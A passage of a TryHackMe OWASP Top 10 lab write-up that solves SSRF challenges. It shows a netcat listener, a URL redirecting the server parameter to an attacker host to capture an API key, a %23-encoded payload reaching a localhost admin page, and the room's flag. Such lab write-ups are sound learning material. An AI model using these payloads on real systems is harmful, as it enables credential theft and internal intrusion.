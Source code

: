 **Challenge 2: Download Resume Parameter**
```html
<!-- Inspected download button -->
<button onclick="download('secure-file-storage.com')">
```
**Server parameter**: `secure-file-storage.com`

**Challenge 3: SSRF Exploitation**

**Original URL:**
```
http://MACHINE_IP:8087/download?server=secure-file-storage.com:8087&id=75482342
```

**Setup Netcat Listener:**
```bash
nc -lvnp 8087
```

**Modified URL (AttackBox IP):**
```
http://MACHINE_IP:8087/download?server=YOUR_ATTACKBOX_IP:8087&id=75482342
```

**Result**: Intercepted API key in request

**Flag**: `THM{Hello_Im_just_an_API_key}`

**Extra Challenge: Admin Area Access**

**Technique**: URL encoding to bypass filters

**Payload:**
```
server=http://localhost:8087/admin%23&id=75482342
```

**Explanation:**
- `%23` = URL-encoded `#` (hash symbol)
- Comments out everything after it
- Breaks parameter parsing
- Redirects to admin endpoint

**Complete URL:**
```
http://MACHINE_IP:8087/download?server=http://localhost:8087/admin%23&id=75482342
```

**Key Insight**: Validate and whitelist all URLs. Implement proper input sanitization. Use network segmentation to limit internal access.

---

### Task 23: What's Next?

Completed OWASP Top 10 - 2021 room. Gained practical experience with critical web vulnerabilities.

---

## Technical Analysis
